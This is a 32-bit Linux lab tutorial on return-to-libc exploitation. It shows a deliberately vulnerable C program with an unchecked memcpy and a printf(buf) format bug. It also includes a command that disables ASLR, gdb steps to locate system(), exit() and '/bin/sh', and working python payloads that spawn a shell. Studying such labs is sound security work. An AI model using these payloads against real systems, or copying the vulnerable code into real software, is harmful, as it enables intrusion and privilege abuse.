

# Return-to-libc

The purpose of this lab is to familiarize with a ret-to-libc technique, which is used to exploit buffer overflow vulnerabilities on systems where stack memory is protected with `no execute` \(NX\) bit.

## Overview


* The ret-to-libc technique is applicable to \*nix systems.
* This lab is only concerned with 32-bit architecture.


In a standard stack-based buffer overflow, an attacker writes their shellcode into the vulnerable program's stack and executes it on the stack. 

However, if the vulnerable program's stack is protected \(NX bit is set, which is the case on newer systems\), attackers can no longer execute their shellcode from the vulnerable program's stack. 

To fight the NX protection, a ret-to-libc technique is used that enables attackers to bypass the NX bit protection and subvert the vulnerable program by re-using existing executable code from the standard C library shared object \(/lib/i386-linux-gnu/libc-\*.so\), that is loaded into vulnerable program's virtual memory space.

At a high level, ret-to-libc technique is similar to the regular stack overflow, with one key difference - instead of overwritting the return address with address of the shellcode when exploiting a regular stack-based overflow with no stack protection, in ret-to-libc case, the return address is overwritten with a memory address that points to the function `system(const char *command)` that lives in the `libc`, so that when the overflowed program returns, it jumps to the `system()` function and executes the shell command that was passed to the `system()` function as the `*command` argument. 

In our case, we will want the vulnerable program to spawn the `/bin/sh` shell, so we will make the vulnerable program call `system("/bin/sh")`.

### Diagram

Below is a simplified diagram of the ret-to-libc exploitation process that we will go through in this lab:


Points to note in the overflowed buffer:

1. EIP is overwritten with address of the `system()` function located inside `libc`;
2. Right after the address of `system()`, there's address of the function `exit()`, so that once `system()` returns, the vulnerable program jumps the `exit()`, which also lives in the `libc`, so that the vulnerable program can exit gracefully;
3. Right after the address of `exit()`, there's a pointer to a memory location that contains the string `/bin/sh`, which is the argument we want to pass to the `system()` function.

### Stack Layout

From the above diagram \(after overflow\), if you are wondering why, when looking from top to bottom, the stack's contents are:

1. Address of the `/bin/sh` string
2. Address of the `exit()` function
3. Address of the `system()` function

...we need to remember what happens with the stack when a function is called:

1. Function arguments are pushed on to the stack in reverse order, meaning the left-most argument will be pushed last;
2. Return address, telling the program where to return after the function completes, is pushed;
3. EBP is pushed;
4. Local variables are pushed.

With the above in mind, it should now be clear why the overflowed stack looks that way - essentially, we manually built an arbitrary/half-backed stack frame for the `system()` function call:

* we pushed an address that contains the string `/bin/sh` - the argument for our `system()` call;
* we also pushed a return address, which the vulnerable program will jump to once the `system()` call completes, which in our case is the address of the function `exit()`.

## Vulnerable Program

The below is our vulnerable program for this lab, which takes user input as a commandline argument and copies it to a memory location inside the program, without checking if the user supplied buffer is bigger than the allocated memory:


```cpp
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buf[8];
    memcpy(buf, argv[1], strlen(argv[1]));
    printf(buf);
}
```


Let's compile the above code:

```csharp
cc vulnerable.c -mpreferred-stack-boundary=2 -o vulnerable
```


Also, let's temporarily switch off the Address Space Layout Randomization \(ASLR\) to ensure it does not get in the way of this lab:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```


Let's now execute the vulnerable program via gdb, set a breakpoint on the function `main` and continue the execution:

```bash
gdb vulnerable anything
b main
r
```


Additionally, we can confirm our binary has various protections enabled for it with the key one for this lab being the NX protection:

```text
checksec
```


## Finding system\(\)

In gdb, by doing:

```csharp
p system
```

...we can see, that the function `system` resides at memory location `0xb7e13870` inside the vulnerable program in the `libc` library:


## Finding exit\(\)

The same way, we can see that `exit()` resides at `0xb7e06c30`:


## Finding /bin/sh

### Inside libc

We want to hijack the vulnerable program and force it to call `system("/bin/sh")` and spawn the `/bin/sh` for us.

We need to remember that `system()` function is declared as `system(const char *command)`, meaning if we want to invoke it, we need to pass it a memory address that contains the string that we want it to execute \(`/bin/sh`\). We need to find a memory location inside the vulnerable program that contains the string `/bin/sh`. It's known that the `libc` contains that string - let's see how we can find it.

We can inspect the memory layout of the vulnerable program and find the start address of the `libc` \(what memory address inside the vulnerable program it's is loaded to\):

```csharp
gdb-peda$ info proc map
```

Below shows that `/lib/i386-linux-gnu/libc-2.27.so` inside the vulnerable program starts at `0xb7dd6000`:


We can now use the `strings` utility to find the offset of string `/bin/sh` relative to the start of the `libc` binary:

```csharp
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

We can see that the string is found at offset `0x17c968`:


...which means, that in our vulnerable program, at address `0xb7f52968` \(`0xb7dd6000` + `17c968`\), we should see the string `/bin/sh`, so let's test it:

```csharp
x/s 0xb7f52968
```

Below shows that `/bin/sh` indeed lives at `0xb7f52968`:


### Inside SHELL Environment Variable

Additionally, we can find the location of the environment variable `SHELL=/bin/sh` on the vulnerable program's stack:

```c
x/s 500 $esp
```


In the above screenshot, we can see that at `0xbffffeea` we have the string `SHELL=/bin/sh`. Since we only need the address of the string `/bin/sh` \(without the `SHELL=` bit in front, which is 6 characters long\), we know that `0xbffffeea + 6` will give us the exact location we are looking for, which is `0xBFFFFEF0`:


### Find String in gdb-peda

Worth remembering, that we can look for the required string using gdb-peda like so:

```text
find "/bin/sh"
```


## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` \(located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness\), which will execute `/bin/sh` that's present in  `0xb7f52968` \(expressed as `\x68\x29\xf5\xb7`\), the payload in a general form looks like this:

```csharp
payload = A*16 + address of system() + return address for system() + address of "/bin/sh"
```

...and when variables are filled in with correct memory addresses, the final exploit looks like this:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

Once executed, we can observe how `/bin/sh` gets executed:


Let's see if the exploit works outside gdb:


Addresses of `system()`, `exit()` and `/bin/sh` used in the below payload are different to those captured in earlier screenshots due to a rebooted VM.


```python
./vulnerable `python -c 'print("A"*16 + "\x40\xe0\xe0\xb7" + "\x90\xb3\xf0\xb7" + "\x3c\x53\xf5\xb7")'`
```



## References

[https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)

[https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf)

